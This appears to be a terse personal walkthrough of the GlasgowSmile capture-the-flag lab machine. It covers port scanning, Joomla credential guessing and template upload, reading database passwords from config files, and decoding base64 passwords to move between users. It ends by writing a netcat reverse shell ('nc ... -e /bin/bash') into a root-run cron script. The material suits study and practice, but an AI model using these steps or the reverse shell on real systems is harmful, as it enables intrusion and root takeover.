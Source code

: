 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# GlasgowSmile
# 2/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

----------------------------------------------------
# gobuster
----------------------------------------------------
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/joomla (Status: 301)
/server-status (Status: 403)

----------------------------------------------------
# attacking joomla
----------------------------------------------------
http://192.168.55.79/joomla/index.php/component/users/?view=login&Itemid=101
cewl -m 5 http://192.168.120.194/joomla > dict.txt

joomla:Gotham

perl joomscan.pl -u http://192.168.55.79/joomla

http://192.168.55.79/joomla/administrator/

File Upload Vulnerability

Navigate to Extensions > Templates > Templates and then choose the Protostar Details and Files template. Open and edit the file named index.php:

----------------------------------------------------
# priv esc
----------------------------------------------------
cat /var/www/joomla2/configuration.php
        public $user = 'joomla';
        public $password = 'babyjoker';
        public $db = 'joomla_db';
MariaDB [joomla_db]> use batjoke;
MariaDB [batjoke]> SELECT * FROM taskforce;
 echo -n Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ | base64 -d
 ???AllIHaveAreNegativeThoughts???        

 ssh rob@192.168.120.194

 >>cat Abnerineedyourhelp
 Gdkkn Cdzq, Zqsgtq rteedqr eqnl rdudqd ldmszk hkkmdrr ats vd rdd khsskd rxlozsgx enq ghr bnmchshnm. Sghr qdkzsdr sn ghr eddkhmf zants adhmf hfmnqdc. Xnt bzm ehmc zm dmsqx hm ghr intqmzk qdzcr, "Sgd vnqrs ozqs ne gzuhmf z ldmszk hkkmdrr hr odnokd dwodbs xnt sn adgzud zr he xnt cnm's."
Mnv H mddc xntq gdko Zamdq, trd sghr ozrrvnqc, xnt vhkk ehmc sgd qhfgs vzx sn rnkud sgd dmhflz. RSLyzF9vYSj5aWjvYFUgcFfvLCAsXVskbyP0aV9xYSgiYV50byZvcFggaiAsdSArzVYkLZ==

rob@glasgowsmile:~$ echo -n STMzaG9wZTk5bXkwZGVhdGgwMDBtYWtlczQ0bW9yZThjZW50czAwdGhhbjBteTBsaWZlMA== | base64 -d
I33hope99my0death000makes44more8cents00than0my0life0


>>find / -user abner 2>/dev/null
/var/www/joomla2/administrator/manifests/files/.dear_penguins.zip

abner@glasgowsmile:~$ cd /tmp/
abner@glasgowsmile:/tmp$ cp /var/www/joomla2/administrator/manifests/files/.dear_penguins.zip .
abner@glasgowsmile:/tmp$ unzip .dear_penguins.zip 
Archive:  .dear_penguins.zip
[.dear_penguins.zip] dear_penguins password:

Looks like this zip archive is password-protected. However, using Abner's password I33hope99my0death000makes44more8cents00than0my0life0 works here:

abner@glasgowsmile:/tmp$ cat dear_penguins 
My dear penguins, we stand on a great threshold! It's okay to be scared; many of you won't be coming back. Thanks to Batman, the time has come to punish all of God's children! First, second, third and fourth-born! Why be biased?! Male and female! Hell, the sexes are equal, with their erogenous zones BLOWN SKY-HIGH!!! FORWAAAAAAAAAAAAAARD MARCH!!! THE LIBERATION OF GOTHAM HAS BEGUN!!!!!
scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz


abner@glasgowsmile:/tmp$  su penguin
scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz 
cd ~
penguin@glasgowsmile:~$ cd SomeoneWhoHidesBehindAMask/
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
-rwSr----- 1 penguin penguin 315904 Jun 15  2020 find

penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat PeopleAreStartingToNotice.txt 

 cat /etc/crontab 


penguin@glasgowsmile:/tmp$ chmod +x pspy64
penguin@glasgowsmile:/tmp$ ./pspy64
CMD: UID=0    PID=7829   | /bin/sh -c /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old

penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ nano .trash_old

nc 192.168.49.55 6969 -e /bin/bash


